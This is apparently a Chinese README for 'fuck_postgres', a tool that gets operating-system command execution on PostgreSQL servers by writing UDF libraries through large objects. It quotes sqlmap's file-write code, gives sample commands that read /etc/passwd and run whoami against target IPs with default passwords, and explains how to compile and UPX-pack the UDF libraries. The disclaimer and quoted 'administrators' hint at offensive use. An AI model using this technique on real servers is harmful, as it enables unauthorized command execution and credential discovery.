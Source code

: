# fuck_postgres

### 前言

PostgreSQL在国外的流行程度不亚于MySQL，简称postgres。比如你kaili linux上的Metasploit数据库服务使用的就是PostgreSQL。

fuck_postgres不是什么黑客攻击工具，他并不是要去fuck什么，只用于便捷地使用PostgreSQL自定义函数来执行系统命令，适用于数据库管理员知道postgres密码却不知道ssh或RDP密码的时候在服务器执行系统命令。

一切攻击都是违法行为，非管理员请不要。。。使用此工具的一切违法行为与本人无关。

经测试，sqlmap上对于postgres的--os-shell无效，so文件和dll文件也有问题，语句略坑，所以我抽时间写一个，方便各位“管理员”。

sqlmap该模块的写文件语句详见filesystem.py:
```
def stackedWriteFile(self, wFile, dFile, fileType, forceCheck=False):
	wFileSize = os.path.getsize(wFile)
	content = open(wFile, "rb").read()

	self.oid = randomInt()
	self.page = 0

	self.createSupportTbl(self.fileTblName, self.tblField, "text")

	debugMsg = "create a new OID for a large object, it implicitly "
	debugMsg += "adds an entry in the large objects system table"
	logger.debug(debugMsg)

	# References:
	# http://www.postgresql.org/docs/8.3/interactive/largeobjects.html
	# http://www.postgresql.org/docs/8.3/interactive/lo-funcs.html

	inject.goStacked("SELECT lo_unlink(%d)" % self.oid)
	inject.goStacked("SELECT lo_create(%d)" % self.oid)
	inject.goStacked("DELETE FROM pg_largeobject WHERE loid=%d" % self.oid)

	for offset in xrange(0, wFileSize, LOBLKSIZE):
		fcEncodedList = self.fileContentEncode(content[offset:offset + LOBLKSIZE], "base64", False)
		sqlQueries = self.fileToSqlQueries(fcEncodedList)

		for sqlQuery in sqlQueries:
			inject.goStacked(sqlQuery)

		inject.goStacked("INSERT INTO pg_largeobject VALUES (%d, %d, DECODE((SELECT %s FROM %s), 'base64'))" % (self.oid, self.page, self.tblField, self.fileTblName))
		inject.goStacked("DELETE FROM %s" % self.fileTblName)

		self.page += 1

	debugMsg = "exporting the OID %s file content to " % fileType
	debugMsg += "file '%s'" % dFile
	logger.debug(debugMsg)

	inject.goStacked("SELECT lo_export(%d, '%s')" % (self.oid, dFile), silent=True)

	written = self.askCheckWrittenFile(wFile, dFile, forceCheck)

	inject.goStacked("SELECT lo_unlink(%d)" % self.oid)

	return written
```

filesystem.py line65，是将dll文件base64编码解码，整个写入到pg_largeobject的一个page，在linux某些版本一定会报错的。 
每page容量为4096字节，如果是hex，只能容纳2kb的数据。

##### 工具特点：

> 1. 不限平台，可用于管理windows和linux上的postgres
> 2. 不限版本，udf有效版本内可自行添加库文件到工具目录
> 3. hex+分段写入large obj，无page数据过大问题
> 4. 。。。


#### USAGE

```
usage: fuck_postgres [-h] [-a HOST] [-o PORT] [-u USER] [-p PASSWD]
                     [-d DATABASE] [-e EXECUTE]

optional arguments:
  -h, --help            show this help message and exit
  -a HOST, --host HOST  pgsql server ip
  -o PORT, --port PORT  pgsql Port
  -u USER, --user USER  pgsql UserName
  -p PASSWD, --passwd PASSWD
                        pgsql password
  -d DATABASE, --database DATABASE
                        pgsql database
  -e EXECUTE, --execute EXECUTE
                        command for UDF to execute
```

##### 演示

管理PostgreSQL 9.2.24 running on linux 64：

```
./fuck_postgres -a 192.168.0.30 -u postgres -p postgresu -e "cat /etc/passwd"
```

![linux](./pic/linux.png)

```
./fuck_postgres -a 192.168.0.30 -u postgres -p postgres -e "net user & whoami"
```


![whoami](./pic/whoami.png)

管理PostgreSQL 8.2.21 running on windows 32：

```
fuck_postgres.exe -a 192.168.0.30 -u postgres -p postgres -e "quser & net user & whoami"
```

![win](./pic/win.png)

```
fuck_postgres.exe -a 192.168.0.47 -u postgres -p postgres -e "ls -al"
```

![win2](./pic/win2.png)

##### 暂时收录了以下版本postgres的库文件：

![tree](./pic/tree.png)

各版本源码地址：`https://www.postgresql.org/ftp/source`

##### 以下来自@zcgonvh（https://www.t00ls.net/thread-30179-1-1.html）

我在拜读前辈文章时，叹服前辈对待技术研究的态度。

udf源文件在此(https://github.com/sqlmapproject/udfhack/)

在 linux 编译so文件简单许多，只需要一条命令： 
```
gcc sys_eval.c -shared -fPIC -I$PGSRC/include/server -o /tmp/8.2_x64.so 
```
其中$PGSRC 为 postgres 源码的路径或安装路径。 

windows上编写 postgres 的 UDF 需要引用其提供的头文件，在 windows 下这些头文件的位置为： 

`%PGDIR%\include `
其中`%PGDIR%`为 postgres 的安装路径 而需要引用的头文件目录并不仅仅只有这个，以下两个目录也是必须的： 

```
%PGDIR%\include\server 
%PGDIR%\include\server\port\win32 
```
这三个路径都需要加到工程的头文件目录列表中。 
同时，需要将 `%PGDIR%\lib `
添加至 lib 文件目录列表中。  
在编译时，必须使用 vs 进行编译，使用 vc6 编译会失败（原因未知）。 
同时也不能使用 release 模式生成，release 的某个选项会导致编译出的 dll 不能正常使用（vs2008 出现此情况，其余版本未测试）。 
为了防止对方未安装 vc 运行库，务必将 配置属性->C/C++->代码生成 中的 代码生成 选项修改为多
线程/MT，以保证在任何情况下均能够正常运行。 
最后，为了尽可能的减小生成文件体积，需要修改 配置属性->链接器 中以下几个参数： 
清单文件->生成清单，修改为否 调试->生成调试信息，修改为否 
优化->引用，修改为是 
优化->启用 COMDAT 折叠，修改为是  
在 vs2008 下使用以上设置，编译成功。 另：建议将生成的动态链接库文件使用 UPX 进行压缩，这样可以有效地减少文件体积。UPX 的下载地
址为： 
http://upx.sourceforge.net/#downloadupx  



欢迎有vs环境的童鞋编译提交新的库文件。

##### 参考鸣谢：@zcgonvh @anlfi @bt2312 @Catchermana
